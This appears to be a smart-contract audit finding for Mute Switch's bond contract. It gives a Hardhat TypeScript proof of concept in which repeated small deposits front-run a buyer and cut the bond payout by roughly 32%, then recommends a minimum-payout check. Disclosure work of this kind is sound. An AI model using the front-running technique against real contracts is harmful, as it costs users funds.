 Side note: the term 'bond price' might be confusing since it refers to the payout the buyer gets divided by the value the buyer pays, so a higher price is actually in favor of the buyer.

### Impact

User ends up buying bond for a lower payout than intended.

### Proof of Concept

In the PoC below, an attacker manages to make the buyer purchase a bond at a price lower by 32% than intended.

File: `test/bonds.ts`

```typescript
  it('Front run PoC', async function () {
    // let price reach the max price
    await time.increase(60 * 60 * 24 * 7)

    // price when victim sends out the tx to the mempool
    var expectedPrice = await bondContract.bondPrice()

    const startPrice = new BigNumber(100).times(Math.pow(10,18))
    let minPurchasePayout = new BigNumber(Math.pow(10,16));
    // using dynamic price didn't work out so I'm using the lowest price
    var minPurchaseValue = minPurchasePayout.times(1e18).div(startPrice).plus(1);

    // attacker buys the lowest amount 20 times
    for(let i = 0; i< 20; i++){
      await bondContract.connect(buyer1).deposit(minPurchaseValue.toFixed(), buyer1.address, false)
    }

    var init_dmute = await dMuteToken.GetUnderlyingTokens(buyer1.address)
    let depositValue = new BigNumber(10).times(Math.pow(10,18)).toFixed();
    var price = await bondContract.connect(buyer1).deposit(depositValue, buyer1.address, false)
    var post_dmute = await dMuteToken.GetUnderlyingTokens(buyer1.address)

    var dmute_diff = new BigNumber(post_dmute.toString()).minus(init_dmute.toString());
    var actualPrice = dmute_diff.times(1e18).div(depositValue);

    var receipt = (await price.wait())
    // compare the expected price with the actual price
    // expected price = 200; actual price = 135.8; meaning actual price is ~68% of expected price
    console.log({expectedPrice, actualPrice:actualPrice.toString()});
  })
```

### Recommended Mitigation Steps

Add a min payout parameter so that users can specify the expected payout. The tx should revert if the actual payout is lower than expected.

**[mattt21 (Mute Switch) confirmed](https://github.com/code-423n4/2023-03-mute-findings/issues/24#issuecomment-1499249679)**
